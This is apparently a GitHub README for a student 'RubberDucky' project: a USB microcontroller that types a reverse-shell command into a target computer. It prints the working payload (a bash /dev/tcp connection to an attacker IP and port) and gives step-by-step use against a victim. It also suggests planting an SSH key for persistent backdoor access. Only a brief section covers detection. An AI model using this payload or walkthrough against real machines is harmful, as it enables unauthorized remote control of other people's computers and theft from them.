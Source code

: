 # RubberDucky
### Summary: 
Through the use of the netcat command our group was able to create a usb device that is capable of creating a backdoor
into another users computer which is on the same network. 

### Hardware: 
Adafruit Feather 32u4 Bluefruit LE
More information can be found [here](https://www.adafruit.com/product/2829)

### Process: 
+ Change the ip address and port within the Arduino Sketch to the ip and port that you will be using on the host machine
```C
  // Create rsh
  Keyboard.print("bash -i >& /dev/tcp/192.101.10.120/1337 0>&1 & disown");
```
+ Flash the Adafruit device with the sketch found in veitchDuck
+ Run the attack.sh file on the host machine 
+ Plug the USB device into the target machine
+ Watch the target computer as a terminal is open, after the commmand has been entered and the terminal has closed you may remove the USB device and return the host machine
+ Congratulations you now have a rsh into another persons computer. 
+ Once here the extensions are endless, however it may be best to add an additional back door to the targets computer for rentry. There are many ways this can be done one is to add a public ssh key to the targets authorized_keys file
More on backdoors can be found [here](https://medium.com/@airman604/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

### Security Measures: 
This Project exists to show how this type of attack can happen, in order to better protect yourself, you should never leave your computer unattended.
When this hack has been carried out with the attack can be detected by looking at a task manager, creating a top session and looking for any bash sessions that are using more CPU power than they should be using.
Currently a patch to this type of attack is being created. 

### Notes:
This device has been tested on Linux and Mac.
The authors will not be held responsible for any blackhat hacking.
